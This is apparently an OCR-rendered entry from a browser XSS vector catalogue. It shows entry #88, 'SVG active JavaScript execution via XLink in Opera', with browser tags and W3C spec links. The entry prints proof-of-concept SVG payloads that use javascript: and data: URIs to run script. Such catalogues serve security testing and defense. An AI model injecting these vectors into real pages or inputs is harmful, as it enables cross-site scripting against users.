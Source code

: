 *   chrome 4.0
*   chrome latest

*   safari 3.4

*   safari latest

*   firefox 3.0

*   firefox latest

*   opera 9.x

*   opera latest

*   internet explorer 6.0

*   internet explorer latest

*   xss

*   svg
*   passive
*   xlink
*   chrome
*   firefox
*   safari
*   opera

*   [`www.w3.org/TR/SVG11/linking.html`](http://www.w3.org/TR/SVG11/linking.html)

*   [`www.w3.org/TR/SVGTiny12/linking.html`](http://www.w3.org/TR/SVGTiny12/linking.html)
*   #68
*   #81
*   #130

reporter：LeverOne

### SVG active JavaScript execution via XLink in Opera#88test

The content of the xml-links will be automatically included in the current document. The combination of "onLoad" (value of xlink:actuate) and "embed" (value of xlink:show) forms of potentially unsafe SVG-elements.

```
<svg  > <animation xlink:href="javascript:alert(1)"/> <animation xlink:href="data:text/xml,%3Csvg xmlns='http://www.w3.org/2000/svg' onload='alert(1)'%3E%3C/svg%3E"/> <image xlink:href="data:image/svg+xml,%3Csvg xmlns='http://www.w3.org/2000/svg' onload='alert(1)'%3E%3C/svg%3E"/> <foreignObject xlink:href="javascript:alert(1)"/> <foreignObject xlink:href="data:text/xml,%3Cscript xmlns='http://www.w3.org/1999/xhtml'%3Ealert(1)%3C/script%3E"/> </svg> 
```

*   opera 9.x
*   opera 12.0

*   xss

*   svg
*   active
*   xlink
*   opera
